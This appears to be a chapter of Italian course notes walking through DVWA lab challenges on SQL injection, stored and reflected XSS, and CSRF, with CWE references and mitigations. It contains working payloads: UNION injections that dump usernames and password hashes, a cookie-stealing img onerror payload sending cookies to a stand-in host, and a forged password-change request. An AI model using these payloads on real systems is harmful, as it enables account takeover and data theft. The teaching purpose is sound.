Abbiamo scoperto che il server MySQL eseguito in DVWA è piuttosto datato (2010). Dando uno sguardo al servizio CVE Details, scopriamo ben 92 vulnerabilità per MySQL 5.1.41. La funzione MySQL \texttt{user()} stmpa lo username attuale e l'host da cui è partita la connessione SQL. Proviamo a iniettarlo tramite l'input seguente: \texttt{1' UNION select 1, user()\#}. Otteniamo la seguente risposta:
\begin{lstlisting}
ID: 1' union select 1, user()#
First name: admin
Surname: admin

ID: 1' union select 1, user()#
First name: 1
Surname: root@localhost
\end{lstlisting}
Scopriamo così che l'utente SQL usato dall'applicazione DVWA è root, inoltre il database è ospitato sullo stesso host dell'applicazione. Ciò è sbagliato: l'utente ha il massimo dei privilegi e inoltre web server e SQL server dovrebbero essere eseguite su macchine separate. La funzione MySQL \texttt{database()} stampa il nome del database usato nella connessione SQL. Proviamo a iniettarla in una UNION tramite l'input seguente:
\texttt{1' UNION select 1, database()\#}. Otteniamo questa risposta:
\begin{lstlisting}
ID: 1' union select 1, database()#
First name: admin
Surname: admin

ID: 1' union select 1, database()#
First name: 1
Surname: dvwa
\end{lstlisting}
Abbiamo scoperto che il nome del database usato dall'applicazione è dvwa. Una volta noto il nome del database, è possibile stamparne lo schema ottenendo la struttura delle tabelle. Il database MySQL \texttt{information\_schema} contiene lo schema di tutti i database serviti dal server MySQL, ovvero la struttura delle tabelle contenute nei DB e struttura dei campi contenuti nelle tabelle. La tabella \texttt{tables} di \texttt{information\_schema} definisce la struttura di una tabella. Il campo \texttt{table\_name} contiene il nome della tabella, mentre il campo \texttt{table\_schema} contiene il nome del database che definisce la tabella. Selezioniamo il campo \texttt{table\_name} dalla tabella \texttt{information\_schema.tables} dove \texttt{table\_schema='dvwa'}:
\begin{lstlisting}
SELECT table_name
FROM information_schema.tables
WHERE table_schema = 'dvwa';
\end{lstlisting}
Dovremmo ottenere i nomi delle tabelle contenute nel database \texttt{dvwa}. Proviamo allora a iniettare la query in una union tramite l'input seguente:
\begin{lstlisting}
1' UNION select 1, table_name
FROM information_schema.tables
WHERE table_schema = 'dvwa'#
\end{lstlisting}
Otteniamo le due tabelle \texttt{guestbook} e \texttt{users}. Quindi il database definisce queste due tabelle. La tabella \texttt{users} probabilmente contiene informazioni sensibili sugli utenti. Vediamo se si riesce a stampare la struttura: la tabella \texttt{columns} di \texttt{information\_schema} definisce la struttura di un campo di una tabella. Il campo \texttt{column\_name} contiene il nome del campo della tabella. Se selezioniamo il campo \texttt{column\_name} della tabella \texttt{information\_schema.columns} dove \texttt{table\_name='users'} dovremmo ottenere i nomi dei campi contenuti nella tabella \texttt{users}. Proviamo allora ad iniettare questa query tramite l'input seguente:
\begin{lstlisting}
1' UNION select 1, column_name
FROM information_schema.columns
WHERE table_name = 'users'#
\end{lstlisting}
Otteniamo i campi della tabella \texttt{users}:

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width=0.6 \textwidth]{./Images/cap6/6.4.png}
\end{figure}
\FloatBarrier

La tabella \texttt{users} contiene tutti i campi necessari per la definizione di un utente dell'applicazione. Vediamo se riusciamo ad iniettare una query che stampa una stringa compatta contenente tutte le informazioni di un utente: la funzione \texttt{concat} restituisce in output la concatenazione di più stringhe: possiamo usarla per costruire una stringa compatta con le informazioni di un utente: 
\begin{center}
    \texttt{user\_id:nome:cognome:username:password}
\end{center}
Proviamo ad iniettare la query vista in una UNION tramite l'input seguente:
\begin{lstlisting}
1' UNION select 1,
concat(user_id,':', first_name, ':',
last_name, ':', user, ':', password)
FROM users#
\end{lstlisting}
In questo modo otteniamo le informazioni degli utenti memorizzati nella tabella \texttt{users}.

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width=0.6 \textwidth]{./Images/cap6/6.5.png}
\end{figure}
\FloatBarrier

\subsection{La vulnerabilità}
La vulnerabilità è data dal fatto che l'applicazione costruisce un comando SQL utilizzando un input esterno e non neutralizza (o lo fa in modo errato) caratteri speciali del linguaggio SQL. La CWE di riferimento è la \textbf{CWE-89 - Improper Neutralization of Special Elements used in a SQL Command (SQL Injection)}.

\subsection{Mitigazione 1a}
Possiamo implementare un filtro dei caratteri speciali SQL. I linguaggi dinamici forniscono già funzioni filtro pronte e robuste, ad esempio in PHP esiste la funzione \texttt{mysql\_real\_escape\_string()}. Attivando la script security a livello high, lo script \texttt{sqli}, abusato finora, adopera un filtro basato su questa funzione. Il filtro inibisce le iniezioni basate su apici, ma esistono anche iniezioni con argomenti interi che non fanno uso di apici. Ad esempio l'input \texttt{1 OR 1=1} è ok per il filtro. Di conseguenza vengono stampati tutti i record della tabella.

\subsection{Mitigazione 1b}
Attivando la script security a livello high, lo script \texttt{sqli} quota l'argomento \texttt{\$id} nella query. In questo modo viene annullato il significato semantico dell'operatore OR, che viene visto come una semplice stringa.


\section{Stored XSS}
In questa sfida un codice malevolo javascript viene iniettato dall'attaccante e memorizzato su un server vittima in maniera permanente. Viene eseguito dal browser di un client vittima che inconsapevolmente si connette al server vittima. 

Impostiamo il livello di sicurezza delgi script di DVWA a Low, e selezioniamo il bottone \textit{XSS Stored}. Otteniamo una pagina web con due form di input: \textit{Name} e \textit{Message}. Mediante la pressione del tasto \textit{Sign Guestbook} l'input viene sottomesso all'applicazione \texttt{xss\_s} in esecuzione sul server.

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width= 0.7 \textwidth]{./Images/cap6/6.6.png}
\end{figure}
\FloatBarrier

L'obiettivo è quello di iniettare statement javascript arbitrari tramite il form HTML. Come nelle sfide precedenti, stiliamo una checklist di operazioni di svolgere per costruire il nostro attacco. Immettiamo l'input seguente nel form:
\begin{lstlisting}
Mauro

Messaggio.
\end{lstlisting}
Questo input è sia sintatticamente corretto e semanticamente corretto, quindi ci aspettiamo una risposta corretta. La risposta ottenuta è:
\begin{lstlisting}
Mauro

Messaggio.
\end{lstlisting}
Diventa chiaro il formato di una risposta corretta: l'attaccante è in grado di distinguere una risposta corretta da una non corretta. L'input è riflesso nella pagina HTML:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\textbf{nomefile}
\begin{minted}[baselinestretch=1.0]{html}
<div id="guestbook_comments">
Name: test <br />
Message: This is a test comment.
<br />
</div>
<div id="guestbook_comments">
Name: Mauro <br />
Message: Messaggio. <br />
</div> 

\end{minted}
\end{mdframed}
Un utente generico che accede all'applicazione \texttt{xss\_s} vede tutti i messaggi postati in precedenza. Immettiamo l'input seguente nei form:
\begin{lstlisting}
Attaccante

<h1>Titolo</h1>
\end{lstlisting}
Questo input è sintatticamente corretto e semanticamente corretto (HTML). Ci aspettiamo allora una risposta corretta. La risposta ottenuta ci dà conferma relativa alla riflessione dell'input, in quano \texttt{Titolo} viene mostrato come Heading 1. Ora immettiamo l'input seguente nei form:
\begin{lstlisting}
Attaccante

 <script>alert(1)</script>
\end{lstlisting}
Tale input è sintatticamente corretto e semanticamente scorretto perché non si aspetta uno script. La risposta ottenuta è la seguente:
\begin{lstlisting}
Name: Attaccante

Message:
\end{lstlisting}
Notiamo che il codice javascript iniettato è eseguito sul browser della vittima: \texttt{alert(1)} provoca il pop-up di una finestra contenente il numero 1. Vediamo l'albero di attacco:

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width= 0.8 \textwidth]{./Images/cap6/6.7.png}
\end{figure}
\FloatBarrier

Il DOM offre diverse funzioni e strutture dati per la manipolazione dinamica del contenuto di una pagina web. Tra le altre spicca la stringa \texttt{document.cookie}, che fornisce la rappresentazione testuale di tutti i cooki posseduti dal browser vittima. Immettiamo l'input seguente nei form:
\begin{lstlisting}
Attaccante

 <script>alert(document.cookie)</script>
\end{lstlisting}

Tale input è sintatticamente corretto e semanticamente scorretto perché non si aspetta uno script. La risposta ottenuta è la seguente:
\begin{lstlisting}
Name: Attaccante

Message:
\end{lstlisting}
Notiamo che il codice javascript iniettato è eseguito sul browser della vittima: viene infatti provocato il pop-up di una finestra contenente i cookie dell'utente vittima.

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width= 0.6 \textwidth]{./Images/cap6/6.8.png}
\end{figure}
\FloatBarrier

Gli attacchi visti nella realtà non sono sfruttabili da un attaccante, in quanto il pop-up con le informazioni lo vede la vittima, non l'attaccante; inoltre la vittima si accorge immediatamente dell'attacco. Tuttavia essi forniscono una Proof of Concept, ovvero un abbozzo di attacco limitato all'illustrazione potenziale delle conseguenze di un attacco. Proviamo ad iniettare uno script che imposti la proprietà di \texttt{document.location} ad un nuovo URL. In questo modo l'applicazione \texttt{xss\_s} viene permanentemente ridirezionata ad un altro URL. Immettiamo l'input seguente nei form:
\begin{lstlisting}
Attaccante

 <script>document.location="http://abc.it"</script>
\end{lstlisting}
L'esecuzione del codice javascript provoca la ridirezione permanente ad \texttt{http://www.abc.it}. Dopo l'esecuzione di una sfida, è possibile ripristinare il database di DVWA mediante il tasto \textit{Create/Reset Database} dal menu Setup.

\subsection{La vulnerabilità}
La vulnerabilità è data dal fatto che l'applicazione non neutralizza (o lo fa in modo errato) l'input utente inserito in una pagina web. La CWE di riferimento è la \textbf{CWE-79 - Improper Neutralization of Input during Web Page Generation (Cross-site Scripting)}.

\subsection{Mitigazione}
Possiamo implementare un filtro basato su whitelist, facendo scegliere l'input in una lista di valori fidati, ad esempio tramite un menu a tendina. In alternativa possiamo implementare un filtro che neutralizzi i caratteri speciali nell'input, come accade nel livello high.


\section{Reflected XSS}
In questa sfida non viene utilizzato un database per memorizzare il codice malevolo javascript. L'attaccante prepara un URL che riflette un suo input malevolo e fa in modo che l'utente vi acceda. A questo punto l'utente, accedendo all'URL, può inconsapevolmente fornire dati sensibili all'attaccante. Per questa sfida impostiamo il livello di sicurezza degli script di DVWA a Low. Selezioniamo il bottone \textit{XSS Reflected}: otteniamo una pagina web con un form di input "What's your Name". Mediante la pressione del tasto \textit{Submit}, l'input viene sottomesso all'applicazione \texttt{xss\_r} in esecuzione sul server: non è coinvolto alcun server SQL.

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width= 0.7 \textwidth]{./Images/cap6/6.9.png}
\end{figure}
\FloatBarrier

La strategia di attacco a \texttt{xss\_r} ricalca quella vista per \texttt{xss\_s}. Tuttavia, a differenza della sfida precedente, li form HTML nell'applicazione \texttt{xss\_r} accetta molti più caratteri. Ciò rende possibili attacchi più sofisticati. Consideriamo il codice javascript seguente:
\begin{lstlisting}
<img
src=x
onerror = this.src =
'http://site/?c='+document.cookie
/>
\end{lstlisting}
Il tag \texttt{img} definisce un'immagine in un tag HTML. Si prova a caricare un'immagine inesistente: l'evento \texttt{onerror} scatta quanto si verifica un errore nel caricamento di un oggeto esterno. Se si verifica, viene associata una callback, specificando l'URL da richiedere in caso di errore. ALl'URL è attaccato un parametro \texttt{c}, il cui valore è la stringa contenente i cookie dell'ultima vittima. Se iniettiamo questo codice javascript nel form, viene provocato l'invio di una richiesta HTTP al web server \texttt{http://site}. L'URL della richiesta contiene i cookie dell'utente che ha caricato la pagine. Se il web server è sotto il controllo dell'attaccante, questo può analizzare i log e leggere i cookie. Vediamo l'albero di attacco:

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width= 0.7 \textwidth]{./Images/cap6/6.10.png}
\end{figure}
\FloatBarrier

\subsection{La vulnerabilità}
La vulnerabilità è data dal fatto che l'applicazione non neutralizza (o lo fa in modo errato) l'input utente inserito in una pagina web. La CWE di riferimento è la \textbf{CWE-79 - Improper Neutralization of Input during Web Page Generation (Cross-site Scripting)}. 

\subsection{Mitigazione}
Possiamo implementare un filtro basato su whitelist, facendo scegliere l'input in una lista di valori fidati, ad esempio tramite un menu a tendina. In alternativa possiamo implementare un filtro che neutralizzi i caratteri speciali nell'input, come accade nel livello high. 

Un cookie è una coppia nome/valore creata dal sito web e memorizzata nel browser del client. Vengono usati nelle applicazioni web per l'autenticazione, tracking, gestione delle preferenze degli utenti. Un cookie viene creato dall'applicazione web in esecuzione del server, salvato nel browser del client, e letto successivamente dall'applicazione che lo ha creato. I server utilizzano i cookie per memorizzare informazioni sui client: dopo che un client si è autenticato con successo, il server gli invia un cookie che funge da authentication tag. Ad ogni successiva richiesta di autenticazione, il browser presenta il cookie, dopodiché verifica l'autenticità del cookie e fornisce l'accesso. 

\section{Cross Site Request Forgery (CSRF)}
In questo tipo di sfida un utente si autentica ad un server \(S_1\), mentre è connesso si collega ad un altro server \(S_2\), e viene indotto dal server \(S_2\) ad inviare comandi non autorizzati al server \(S_1\). Tali comandi provocano azioni eseguite da parte di \(S_1\) per conto dell'utente, come se le avesse richieste lui. Per questa sfida impostiamo nuovamente il livello di sicurezza degli script a Low. Selezioniamo il bottone \textit{CSRF}: otteniamo una pagina web con due form di input: "New Password" e "Confirm new password". Mediante la pressione del tasto \textit{Change}, l'input viene sottomesso all'applicazione \texttt{csrf} in esecuzione sul server, e la password viene inserita in un database SQL.

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width= 0.7 \textwidth]{./Images/cap6/6.11.png}
\end{figure}
\FloatBarrier

Immettiamo l'input seguente nei form:
\begin{lstlisting}
password

password
\end{lstlisting}
Tale input è sia sintatticamente che semanticamente corretto, per cui ci aspettiamo una risposta corretta. La risposta ottenuta è la seguente:
\begin{lstlisting}
Password changed
\end{lstlisting}
Se analizziamo l'URL notiamo qualcosa di interessante: in particolare le password immesse dall'utente sono riflesse nell'input in chiaro: un attaccante che monitora il traffico di rete le cattura subito. L'URL è associato ad un'azione che si suppone essere eseguita da un utente fidato. Non contiene alcun parametro legato all'utente (come ad esempio la password vecchia), quindi è riproducibile da chiunque. Se questo accade, e l'azione è eseguita da un utente non fidato, il server non ha alcun modo di accorgersene. 

L'attaccante può preparare una richiesta contraffatta, modificando i parametri \texttt{password\_new} e \texttt{password\_conf} nell'URL. La richiesta contraffatta viene poi nascosta in un'immagine. La vittima, loggata a DVWA, viene indotta a caricare l'immagine inconsapevolmente, provocando così la modifica della password. Ad esempio la richiesta contraffatta potrebbe essere nascosta così:
\begin{lstlisting}
<img
src="http://127.0.0.1:8888/dvwa/vulnerabilities/csrf/?
 password_new=pippo&password_conf=pippo&Change=Change#"
 width="0" height="0"
/>
\end{lstlisting}
Quando il browser della vittima valuta la richiesta, inconsciamente si collega alla pagina di cambio password e la modifica ha successo. Vediamo l'albero di attacco:

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width= 0.7 \textwidth]{./Images/cap6/6.12.png}
\end{figure}
\FloatBarrier

\subsection{La vulnerabilità}
La vulnerabilità è data dal fatto che l'applicazione non è in grado di verificare se una richiesta valida e legittima sia stata eseguita intenzionalmente dall'utente che l'ha inviata. La CWE di riferimento è la \textbf{CWE-352 - Cross-Site Request Forgery (CSRF)}

\subsection{Mitigazione}
Possiamo introdurre un elemento di casualità negli URL associati ad azioni: lo scopo è quello di distinguere richieste lecite (generate da riempimento del form da parte dell'utente) da richieste contraffatte (generate da manipolazione dell'url da parte dell'attaccante). Se l'attaccante genera l'URL senza il form, la sua richiesta viene scartata.


\let\cleardoublepage\clearpage